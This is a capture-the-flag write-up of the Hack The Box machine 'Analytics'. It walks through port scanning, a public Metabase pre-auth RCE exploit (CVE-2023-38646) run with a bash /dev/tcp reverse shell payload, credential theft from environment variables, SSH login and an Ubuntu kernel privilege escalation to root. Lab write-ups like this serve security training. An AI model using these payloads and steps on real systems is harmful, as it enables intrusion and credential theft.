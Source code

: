 ```yaml
---
title: HTB - Analytics
date: 2023-12-29
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, analytics, cve-2023-38646, cve-2023-32629]
img_path: /assets/analytics/
published: true
---
```


![room_banner](room_banner.png)

## Overview

|:-:|:-:|
|Machine|[Analytics](https://app.hackthebox.com/machines/569)|
|Rank|Easy|
|Time|-|
|Focus|CVEs|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

## Information gathering

```shell
# port-scanning
$ sudo nmap analytics -T4 --min-rate 10000 -A

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
```

## Web enumeration

According to Nmap's output, the HTTP server redirects us to `http://analytical.htb/`, so we have to add it to our `/etc/hosts` file:

  ![](etc_hosts.png)

  ![](home.png)

When clicking on `Login` we are redirected to `data.analytical.htb`:

  ![](analytical_login.png)

Let's us add this to `/etc/hosts` as well:

  ![](etc_hosts_1.png)

  ![](home_data.png)

Viewing the page source, we can find Metabase's version:

  ![](metabase_version.png)

Searching Google for a public exploit we find the [Metabase Pre-Auth RCE (CVE-2023-38646) POC](https://github.com/Pyr0sec/CVE-2023-38646). This requires the value of the `setup token` which can be found in the `/api/session/properties` directory:

  ![](setup-token.png)

All we have to do now, is to open a listener and run the PoC with a Bash reverse shell payload:

  ```shell
  # setting up a listener
  $ nc -lvnp 1337
  listening on [any] 1337 ...
  ```

  ```shell
  # executing the PoC
  $ python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.6/1337 0>&1"
  ```

  ```shell
  # catching the reverse shell
  $ nc -lvnp 1337
  listening on [any] 1337 ...
  connect to [10.10.14.6] from (UNKNOWN) [10.10.11.233] 43200
  bash: cannot set terminal process group (1): Not a tty
  bash: no job control in this shell
  59a5ee253db5:/$
  ```

After exploring the environment, we can find some credentials listed on the `env` variable:

  ```shell
  59a5ee253db5:/$ env
  env
  SHELL=/bin/sh
  MB_DB_PASS=
  HOSTNAME=59a5ee253db5
  LANGUAGE=en_US:en
  MB_JETTY_HOST=0.0.0.0
  JAVA_HOME=/opt/java/openjdk
  MB_DB_FILE=//metabase.db/metabase.db
  PWD=/
  LOGNAME=metabase
  MB_EMAIL_SMTP_USERNAME=
  HOME=/home/metabase
  LANG=en_US.UTF-8
  META_USER=metalytics # Username
  META_PASS=An4lytics_ds20223# # Password
  MB_EMAIL_SMTP_PASSWORD=
  USER=metabase
  SHLVL=4
  MB_DB_USER=
  FC_LANG=en-US
  LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
  LC_CTYPE=en_US.UTF-8
  MB_LDAP_BIND_DN=
  LC_ALL=en_US.UTF-8
  MB_LDAP_PASSWORD=
  PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
  MB_DB_CONNECTION_URI=
  JAVA_VERSION=jdk-11.0.19+7
  _=/usr/bin/env
  OLDPWD=/var
  ```

We can use them to log in to the SSH server and right away find the `user.txt`:

  ```shell
  $ ssh metalytics@analytics
  # pass: An4lytics_ds20223#
  metalytics@analytics:~$ ls -la
  total 36
  drwxr-x--- 4 metalytics metalytics 4096 Aug  8 11:37 .
  drwxr-xr-x 3 root       root       4096 Aug  8 11:37 ..
  lrwxrwxrwx 1 root       root          9 Aug  3 16:23 .bash_history -> /dev/null
  -rw-r--r-- 1 metalytics metalytics  220 Aug  3 08:53 .bash_logout
  -rw-r--r-- 1 metalytics metalytics 3771 Aug  3 08:53 .bashrc
  drwx------ 2 metalytics metalytics 4096 Aug  8 11:37 .cache
  drwxrwxr-x 3 metalytics metalytics 4096 Aug  8 11:37 .local
  -rw-r--r-- 1 metalytics metalytics  807 Aug  3 08:53 .profile
  -rw-r----- 1 root       metalytics   33 Dec 29 16:56 user.txt
  -rw-r--r-- 1 metalytics metalytics   39 Aug  8 11:30 .vimrc
  ```

There isn't anything of interest laying around, so we can check the kernel's version and look for a public exploit:
  
  ```shell
  metalytics@analytics:/$ uname -a
  Linux analytics 6.2.0-25-generic \#25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
  ```

There is the [GameOver(lay) Ubuntu Privilege Escalation](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) which we can copy and paste on our target from the `/tmp` directory:

  ```shell
  metalytics@analytics:/$ cd /tmp
  metalytics@analytics:/tmp$ nano exploit.sh
  metalytics@analytics:/tmp$ chmod +x exploit.sh
  metalytics@analytics:/tmp$ ./exploit.sh
  [+] You should be root now
  [+] Type 'exit' to finish and leave the house cleaned
  root@analytics:/tmp# id
  uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
  root@analytics:/tmp# ls /root/
  root.txt
  ```

<figure>
    <img src="machine_pwned.png"
    alt="Machine pwned" >
</figure>